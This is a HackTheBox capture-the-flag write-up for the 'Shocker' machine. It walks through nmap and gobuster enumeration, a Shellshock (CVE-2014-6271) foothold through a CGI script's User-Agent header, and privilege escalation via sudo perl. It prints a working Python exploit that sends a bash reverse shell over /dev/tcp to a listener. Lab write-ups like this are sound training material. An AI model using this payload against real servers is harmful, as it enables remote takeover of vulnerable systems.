




HackTheBox - Shocker Writeup
Table of Contents
Nmap
Like always, I’m going to scan the IP Address by using nmap but I’m going to scan the full port first. Then, I’m going to scan the only open ports.
nmap -p80,2222 -sCV -oN nmap/shocker 10.10.10.56
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c4f8ade8f80477decf150d630a187e49 (RSA)
| 256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_ 256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
The nmap scan result is completed. There are just 2 port opens which are port 80 and port 2222. It’s a bit odd to configure the SSH in another port besides the standard port 22. However, based on the OpenSSH service banner, this is an Ubuntu (xenial) machine. Unfortunately, I can’t do much with SSH since it’s mostly secure hence the name Secure Shell. :)
Http: don’t bug me!
With that information in hand. I’ve navigated port 80 through my browser and I’ve been greeted with this page. It’s just a funny image with text that says "Don't Bug Me!". Based on the index page extension, it’s an html file.
Gobuster
So, I’m going to run gobuster to enumerate more on this webserver. However, it’s just a massive dead end for me. I can’t find anything at all. Based on this machine name, which is shocker and I’m thinking somehow it’s based on Shellshock vulnerability. Also, it has an Apache web server running and this vulnerability can occur in the /cgi-bin/ directory. When I navigated to that directory in my browser, I instantly got Forbidden or 403 which means it existed.

Now, I’m confused why gobuster can’t find it at all, and based on the wordlist I used, the cgi-bin is present in it. With closer inspection, I found out that it needs to be another “slash” / in the end. For example /cgi-bin vs /cgi-bin/. When it doesn’t have / at the end, it goes straight to 404 Not Found. Then, I’ll try running the gobuster again with tag -f for Append / to each request and it did manage to find the /cgi-bin/ directory.

The best thing to do now is to enumerate more in that directory but this time I’m using the -x flag for looking up the extension with .sh and .cgi and I’ve got a hit with the user.sh file.

Http: /Cgi-Bin/User.sh
When I navigated to that file which is user.sh it automatically downloaded it into my machine. When I opened it up, it was "Just an uptime test script" and nothing too fancy about it. ;)

Foothold: ShellShock
So, I already have the file that I needed for the exploitation but I didn’t know how to tinker with it. So, the same old me goes to my handsome and wise friend Mr.Google and asking about ShellShock’s vulnerability. I ended up finding this blog post showcasing "how to exploit shellshock manually" also the given CVE for this vulnerability is CVE-2014-6271. I can inject some arbitrary bash command in the User-Agent but with some weird string inside it. Luckily, I manage to find this answer regard of that string (Kind of understand a bit) but I want to be “leet” today. So, I’m going to make a python script to gain the initial foothold with bash reverse shell.
#!/usr/bin/env python3
import argparse
import requests
import sys
parser = argparse.ArgumentParser()
parser.add_argument('-i', '--lhost', metavar='', required=True, help='listening ip')
parser.add_argument('-p', '--lport', metavar='', required=True, help='listening port')
args = parser.parse_args()
if __name__ == "__main__":
try:
payload = f"/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1"
url = "http://10.10.10.56/cgi-bin/user.sh"
agent = {'User-Agent':'() { :; }; echo ; echo ; '+ payload}
req = requests.get(url, headers=agent)
except KeyboardInterrupt:
print('\n');sys.exit()
why not? ¯\(0_0)/¯
PrivEsc: Perl
I’m in as a shelly user and the very first thing I love to do is upgrading my shell with python since this machine has python installed on it. Like always, I love to start with the simple "check" in the sudo permission with the sudo -l command. Shockingly, I can run perl with the sudo command without any authentication needed. So, I’m heading to the lovely gtfobins that have a bunch of collection of Unix binaries that can be abused. Then, I’ll try to run it, and BOOM!

VOILA